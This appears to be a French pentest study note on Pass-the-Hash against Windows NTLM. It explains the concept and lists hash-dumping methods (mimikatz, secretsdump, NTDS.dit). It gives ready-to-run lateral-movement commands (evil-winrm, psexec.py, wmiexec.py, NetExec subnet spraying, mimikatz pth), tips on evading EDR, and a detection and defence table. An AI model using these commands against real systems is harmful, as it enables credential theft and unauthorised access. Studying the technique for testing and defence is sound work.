

# 🔑 Pass-the-Hash (PtH)

> [!info] **En 1 phrase**
> Pass-the-Hash = se connecter avec le **hash NTLM** d'un mot de passe au lieu du mot de passe en clair
> — on n'a jamais besoin de connaître le mot de passe.

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Windows (NTLM) ne vérifie pas le "mot de passe en clair" : il compare des **hashes**.
> Si on possède le hash NTLM (`LM hash : NTLM hash`), on peut authentifier sans cracker.

---

## ⚙️ Comment ça marche

1. **Obtenir** le hash NTLM : `mimikatz sekurlsa::logonpasswords`, `secretsdump`, `hashdump`, NTDS.dit.
2. **Rejouer** le hash directement dans les outils (pas de cracking nécessaire).
3. Le serveur accepte l'authentification → **on est la victime**.

---

## 🛠️ Exploitation

```bash
# Forme du hash : aad3b435b51404eeaad3b435b51404ee:<NTLM>
#                             (LM vide)          (NTLM)

# WinRM (5985/5986)
evil-winrm -i 192.168.1.20 -u admin -H aad3b435b51404eeaad3b435b51404ee:579da618cfbfa8527ac86ce7d6f24d48

# Impacket : PsExec / WMI / SMBExec
psexec.py -hashes :579da618cfbfa8527ac86ce7d6f24d48 corp.local/admin@192.168.1.20
wmiexec.py -hashes :579da618cfbfa8527ac86ce7d6f24d48 corp.local/admin@192.168.1.20

# NetExec - valider le hash partout
nxc smb 192.168.1.0/24 -u admin -H 579da618cfbfa8527ac86ce7d6f24d48 --shares

# Depuis une machine Windows (mimikatz → ouvre une cmd avec l'identité)
sekurlsa::pth /user:admin /domain:corp.local /ntlm:579da618cfbfa8527ac86ce7d6f24d48
```

---

## 🔍 Détection & Défense

| Indicateur | Détail |
|---|---|
| **Connexions** | Login réseau sans le flux NTLM "normal" (anomalie), AuthN pour des protocoles incohérents |
| **Événements 4624/4625** | Logon type 3 (réseau) depuis des comptes sans mots de passe "réels" utilisés ailleurs |
| **Réponse** | **LAPS** (mdps locaux uniques), restreindre l'admin local, **Credential Guard** (isolation LSASS), "Restricted Admin Mode" pour RDP |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Avant de cracker, REJOUER**
> Si tu as le hash NTLM, teste-le **directement** sur les autres machines (`nxc --continue-on-success`). Le cracking ne sert que si on a besoin du **clair** (SSH, WinRM pur...).

> [!warning] ⚠️ **Piège** : avec SMB Signing + EDR, certains vecteurs (PsExec) se font détecter. Préfère WinRM quand c'est ouvert, et garde `--smb2support`.

---

## 🔗 Liens

- [[Kerberos - Le protocole|👑 Kerberos]]
- [[Pass-the-Ticket et Overpass-the-Hash|🎫 Pass-the-Ticket / Overpass-the-Hash]]
- [[DCsync|📥 DCsync]] (source classique de hashes)
- [[Password Cracking|🔐 Password Cracking]]
- → Note complète : [[05 - Active Directory|👑 Active Directory]]
